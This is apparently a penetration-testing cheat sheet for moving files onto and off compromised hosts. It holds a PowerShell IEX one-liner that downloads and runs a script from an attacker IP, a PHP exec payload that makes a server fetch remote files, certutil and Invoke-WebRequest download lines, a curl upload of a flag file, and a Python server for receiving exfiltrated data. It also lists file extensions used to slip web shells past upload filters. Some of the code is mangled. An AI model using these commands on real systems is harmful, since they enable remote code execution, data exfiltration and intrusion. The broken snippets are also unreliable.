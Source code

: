 # Linux

wget http://IP:PORT/FILE
# python 
python -m SimpleHTTPServer
python3 -m http.server

## http sever saves POST request data

```python
#!/usr/bin/python 
import SimpleHTTPServer
import BaseHTTPServer class SputHTTPRequestHandler(SimpleHTTPServer.SimpleHTTPRequestHandler): 
def do_PUT(self):
	print self.headers
	length = int(self.headers["Content-Length"]) 
	path = self.translate_path(self.path) 
	with open(path, "wb") as dst: 
	    dst.write(self.rfile.read(length)) 

    
 if __name__ == '__main__': 
	SimpleHTTPServer.test(HandlerClass=SputHTTPRequestHandler)
```




# Windows 
Powershell "IEX(New-Object Net.WebClient).downloadString('http://192.168.181.128/adPEAS.ps1')"

Invoke-WebRequest -Uri ATTACK_IP/FILE -OutFile FILE NAME

# php
<?php echo exec("powershell -command \"(New-Object System.Net.WebClient).DownloadFile('http://10.10.17.185/FILE_NAME','OUT_FILE_NAME')\""); ?>

powershell Invoke-WebRequest -Uri http://10.10.14.15/plink.exe -OutFile c:\Users\shaun\Downloads\plink.exe

# scp 
scp [OPTION] [user@]SRC_HOST:]file1 user@target:/tmp/FILE:
SCP -i KEY FILE user@target:/tmp/FILE:
-i for ssh key
P - Specifies the remote host ssh port.
-p - Preserves files modification and access times.
-q - Use this option if you want to suppress the progress meter and non-error messages.
-C - This option forces scp to compresses the data as it is sent to the destination machine.

# Curl
```bash
# Upload file with curl
curl DEST_IP --upload-file FILE
curl 192.77.184.2 --upload-file flag.zip
```



# Certutil
certutil --urlcache -f http://IP/FILE OUTPUTFILENAME



# FTP
python -m pyftpdlib 21
ftp 10.10.10.10
# stop service
sc stop SERVICE

sc query SERVICE to check service

sc start SERVICE to start 



```
Invoke-WebRequest -Uri http//192.168.181.128/linPEAS.ps1 -OutFile
File C:\Users\administrator\Documents\WindowsPowerShell\Modules\Recon\adPEAS.ps1
```

# Extension evasion

**File Upload General Methodology**
Other useful extensions:
PHP: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module

  Working in PHPv8: .php, .php4, .php5, .phtml, .module, .inc, .hphp, .ctp

ASP: .asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml
Jsp: .jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action
Coldfusion: .cfm, .cfml, .cfc, .dbm
Flash: .swf
Perl: .pl, .cgi
Erlang Yaws Web Server: .yaws




 